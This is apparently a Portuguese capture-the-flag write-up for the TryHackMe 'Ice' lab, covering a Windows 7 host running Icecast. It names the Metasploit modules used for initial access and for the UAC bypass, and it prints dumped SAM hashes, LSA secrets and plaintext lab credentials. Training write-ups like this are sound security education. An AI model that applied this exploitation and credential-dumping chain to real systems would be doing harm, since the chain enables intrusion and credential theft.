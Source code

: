 # ICE
https://tryhackme.com/room/ice

## NMAP
- Portas abertas e serviços:
  - 135/tcp: MSRPC (Microsoft Windows RPC)
  - 139/tcp: NetBIOS-SSN (Microsoft Windows NetBIOS-SSN)
  - 445/tcp: Microsoft-DS (Microsoft Windows 7-10)
  - 3389/tcp: SSL/MS-WBT-SERVER?
  - 5357/tcp: HTTP (Microsoft HTTPAPI httpd 2.0 - SSDP/UPnP)
  - 8000/tcp: HTTP (Icecast streaming media server)
  - 49152/tcp, 49153/tcp, 49154/tcp, 49158/tcp, 49159/tcp, 49160/tcp: MSRPC (Microsoft Windows RPC)
- Informações do Serviço: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

## CME
- Windows 7 Professional Service Pack 1 x64 (nome: DARK-PC) (domínio: Dark-PC)

## METASPLOIT
- Exploit: exploit/windows/http/icecast_header

## Informações do Host
- Nome do Host: DARK-PC
- Nome do SO: Microsoft Windows 7 Professional
- Versão do SO: 6.1.7601 Service Pack 1 Build 7601
- Fabricante do SO: Microsoft Corporation
- Configuração do SO: Estação de trabalho autônoma
- Tipo de Compilação do SO: Multiprocessador Livre
- Proprietário Registrado: Dark
- ID do Produto: 00371-177-0000061-85305
- Data de Instalação Original: 11/12/2019, 4:48:23 PM
- Hora de Inicialização do Sistema: 2/2/2023, 10:50:27 AM
- Fabricante do Sistema: Xen
- Modelo do Sistema: HVM domU
- Tipo de Sistema: PC baseado em x64
- Processador(es): 1 Processador(es) Instalado(s).
  - [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
- Versão da BIOS: Xen 4.11.amazon, 8/24/2006
- Diretório do Windows: C:\Windows
- Diretório do Sistema: C:\Windows\system32
- Dispositivo de Inicialização: \Device\HarddiskVolume1
- Localidade do Sistema: en-us; Inglês (Estados Unidos)
- Localidade de Entrada: en-us; Inglês (Estados Unidos)
- Fuso Horário: (UTC-06:00) Horário Central (EUA e Canadá)
- Memória Física Total: 2.048 MB
- Memória Física Disponível: 1.423 MB
- Memória Virtual: Tamanho Máximo: 4.095 MB
- Memória Virtual: Disponível: 3.380 MB
- Memória Virtual: Em Uso: 715 MB
- Localização do Arquivo de Página(s): C:\pagefile.sys
- Domínio: WORKGROUP
- Servidor de Logon: \\DARK-PC
- Correções Quentes: 2 Correções Quentes Instaladas.
  - [01]: KB2534111
  - [02]: KB976902
- Placa(s) de Rede: 1 Placa(s) de Rede Instalada(s).
  - [01]: AWS PV Network Device
    - Nome da Conexão: Local Area Connection 2
    - DHCP Habilitado: Sim
    - Servidor DHCP: 10.10.0.1
    - Endereço IP(s)
      - [01]: 10.10.50.220
      - [02]: fe80::c24:b17c:8e53:23ef

## METASPLOIT
- Exploit: exploit/windows/local/bypassuac_eventwr

### Dumping SAM
- Domínio: DARK-PC
- SysKey: e8764ef63a8864b8326f31fae6b3ad34
- SID Local: S-1-5-21-2096091615-1365079743-3039020981

#### Contas no SAM:
1. Administrador
   - Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

2. Convidado

3. Dark
   - Hash NTLM: 7c4fe5eada682714a036e39378362bab

### Dumping LSA Secrets
- Domínio: DARK-PC
- SysKey: e8764ef63a8864b8326f31fae6b3ad34

#### Segredos no LSA:
1. Nome Local: Dark-PC (S-1-5-21-2096091615-1365079743-3039020981)
   - Nome do Domínio: WORKGROUP
   - Subsistema de Política: 1.11
   - Chave(s) LSA: 1, padrão {a64b88f9-c08b-9b33-2a8f-2097d1cbefae}
     - [00]: {a64b88f9-c08b-9b33-2a8f-2097d1cbefae} 
       - Segredo: DefaultPassword
         - Valor: Password01!
        
### Recuperando Todas as Credenciais
#### Credenciais MSV
| Usuário | Domínio  | LM                          | NTLM                         | SHA1                          |
| ------- | -------- | --------------------------- | ---------------------------- | ----------------------------- |
| Dark    | Dark-PC  | e52cac67419a9a22ecb0836909  | 7c4fe5eada682714a036e393783  | 0d082c4b4f2aeafb67fd0ea568a9ed30262bab997e9d3ebc0eb |

#### Credenciais WDigest
| Usuário  | Domínio     | Senha       |
| -------- | ----------- | ----------- |
| (null)   | (null)      | (null)      |
| DARK-PC$ | WORKGROUP   | (null)      |
| Dark     | Dark-PC     | Password01! |

#### Credenciais TSPKG
| Usuário | Domínio  | Senha       |
| ------- | -------- | ----------- |
| Dark    | Dark-PC  | Password01! |

#### Credenciais Kerberos
| Usuário  | Domínio     | Senha       |
| -------- | ----------- | ----------- |
| (null)   | (null)      | (null)      |
| Dark     | Dark-PC     | Password01! |
| dark-pc$ | WORKGROUP   | (null)      |

